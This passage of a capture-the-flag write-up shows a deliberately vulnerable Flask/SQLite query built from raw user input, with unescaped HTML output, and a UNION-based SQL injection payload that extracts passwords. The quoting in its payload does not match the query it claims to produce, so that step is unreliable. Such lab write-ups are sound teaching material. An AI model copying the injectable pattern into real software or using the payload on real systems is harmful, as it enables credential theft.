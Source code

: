 ## Solution

1. read the server code

```python
@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:

        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """
```

2. set query

input:

```
%' UNION SELECT password FROM users --
```

server will construct this query:

```
SELECT username FROM users WHERE username LIKE "%" UNION SELECT password as username FROM users --"
```

idea behind:

- the server only get the username column from the user table
- we can treat the other columns of the user table as username column and union the rows of the column with the same name `username`

---

# 4

## Description
